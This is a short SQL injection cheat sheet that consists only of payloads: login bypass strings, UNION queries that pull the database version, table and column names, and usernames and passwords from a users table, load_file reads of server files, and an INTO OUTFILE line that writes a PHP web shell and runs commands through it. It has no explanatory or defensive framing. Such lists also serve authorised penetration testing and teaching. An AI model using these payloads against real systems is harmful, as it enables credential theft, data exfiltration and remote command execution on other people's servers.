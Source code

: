 ### SQL Injection

```
' or 1=1 LIMIT 1;#
```
```
<Username>' or 1=1 LIMIT 1;#
```
```
id=1 order by 1
```
```
UNION all select 1,2,3
```
```
UNION all select 1,2, @@version
```
```
UNION all select 1,2, user()
```
```
UNION all select 1,2, table_name from information_schema.tables
```
```
UNION all select 1,2, column_name from information_schema.columns where table_name='users'
```
```
UNION all select 1, username, password from users
```
```
UNION all select 1,2, load_file('path/to/file')
```
```
union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'path/to/backdoor.php'
----
(ip/backdoor.php?cmd=ipconfig)
```
```
SELECT table_name FROM information_schema.tables WHERE table_schema=database() and table_name LIKE 'w%'
```

